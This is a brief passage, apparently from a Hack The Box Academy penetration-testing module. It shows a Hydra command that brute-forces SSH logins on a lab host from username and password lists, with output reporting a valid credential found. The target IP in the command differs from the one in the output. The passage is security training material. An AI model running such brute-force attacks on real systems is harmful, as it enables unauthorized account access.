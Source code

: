 #### Hydra - SSH

We can use a tool such as `Hydra` to brute force SSH. This is covered in-depth in the [Login Brute Forcing](https://academy.hackthebox.com/course/preview/login-brute-forcing/introduction-to-brute-forcing) module.

  Hydra - SSH

```shell-session
Tachipy@htb[/htb]$ hydra -L ./username.list -P ./password.list ssh://10.129.202.219 -t 64


[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
